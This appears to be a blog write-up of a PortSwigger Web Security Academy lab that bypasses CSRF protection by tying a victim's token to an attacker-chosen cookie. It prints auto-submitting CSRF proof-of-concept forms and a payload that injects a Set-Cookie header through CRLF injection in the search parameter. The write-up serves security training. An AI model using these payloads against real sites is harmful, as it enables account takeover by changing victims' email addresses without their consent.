 ```yaml
---
layout: post
title:  "CSRF where token is tied to non-session cookie"
date:   2024-10-06 12:14:54 +0530
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

## Solution 

After login, just like the other labs what we saw on a CSRF vulnerability on `Update email` but there will be certain measures in order to bypass it 

If update the email and this is how request and response looks like 

![]({{ site.baseurl }}/assets/images/csrf-30.png)

Now what I did, let's generate a simple CSRF POC and check in the current user session which is `wiener` and it works and updated the email to what I provided 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="2&#64;2&#46;com" />
      <input type="hidden" name="csrf" value="f3QjcLNuEvtdJ2kz3MPz0wYHq83LZKli" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

For wiener it works, but with the CSRF I logged in as `carlos` and checked the POC it didn't workout because of `Invalid CSRF token`

![]({{ site.baseurl }}/assets/images/csrf-31.png)

Let's finetune the CSRF POC and our first step to copy the CSRF token from source page once after login as `carlos` and copy the `csrfKey` by intercepting the update email and copy it from the header 

![]({{ site.baseurl }}/assets/images/csrf-32.png)

Fine tuned CSRF POC looks like as follows:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker233333&#64;2&#46;com" />
      <input type="hidden" name="csrf" value="HVXSXAHpIyEbsNBBLt9LO2rxlKWTGzub" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/?search=nithisshtest%0d%0aSet-Cookie:%20csrfKey=KosN7sSRNilWGKqc6ihUuKUhprqtGQyn%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

let's debug on how it works, in the home page we have a search functionality where it is vulnerable to a CRLF attack through we can inject the `csrfKey` where we copied and copy the CSRF token from `POST` body of `carlos` user when you update the email.. If all goes well, when paste the CSRF POC into the exploit server and then click on `Store -> Deliver the exploit to victim` and that solves the lab 

![]({{ site.baseurl }}/assets/images/csrf-33.png)